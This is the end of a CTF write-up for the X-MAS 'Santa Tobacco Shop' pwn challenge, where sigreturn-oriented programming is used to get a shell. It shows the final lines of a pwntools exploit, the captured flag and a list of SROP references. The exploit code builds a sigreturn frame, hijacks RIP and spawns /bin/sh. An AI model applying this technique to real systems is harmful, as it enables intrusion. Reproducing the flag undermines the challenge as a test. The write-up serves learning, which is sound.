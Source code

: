 ```python
new_frame.reverse()
send_buffer(flat(new_frame))

# RIP overwrite for rt_sigreturn with #0x0000000000401199: mov eax, 0xf; nop; syscall;
send_buffer(p64(0x0000000000401199))

# Quit using "/" and add /bin/sh to the .bss/data segment
send_buffer("//bin/sh\x00")
log.critical("W00TW00T!")
p.interactive()

#X-MAS{1f_1n_t0b4cc0_y0u_b3li3v3_XM45_G1f75_y0u_w0n7_r3c31v3}

#https://amriunix.com/post/sigreturn-oriented-programming-srop/
#https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop
#https://anee.me/advanced-rop-techniques-16fd701909b5
#https://docs.pwntools.com/
#https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
```

W00TW00T! We can see that the exploit works on the remote box smoothly :)

![flag.png](/XMAS-Pwn-Santa-Tobacco-Shop/flag.png)

Here is the flag.
```
X-MAS{1f_1n_t0b4cc0_y0u_b3li3v3_XM45_G1f75_y0u_w0n7_r3c31v3}
```

Thanks to the challenge creator `PinkiePie1189` and the people who `organized` it (`Livian`) ;) and thanks to https://xmas.htsp.ro/login. I had fun a learned a lot. I just do pwn for fun and learning.

Hope you enjoyed my write up, sorry if I did not explain it well but it takes ages to write a quality blog and sometimes I get lazy :P

## References
* https://sites.google.com/site/microprocessorsbits/string-instructions/cmps-cmpsb-cmpsw
* https://c9x.me/x86/html/file_module_x86_id_279.html
* https://amriunix.com/post/sigreturn-oriented-programming-srop/
* https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop
* https://anee.me/advanced-rop-techniques-16fd701909b5
* https://docs.pwntools.com/
* https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
* https://github.com/sashs/Ropper
* https://0x00sec.org/t/srop-signals-you-say/2890
* https://man7.org/
* https://sites.google.com/site/microprocessorsbits/
* https://www.gnu.org/software/gdb/current/
* https://github.com/hugsy/gef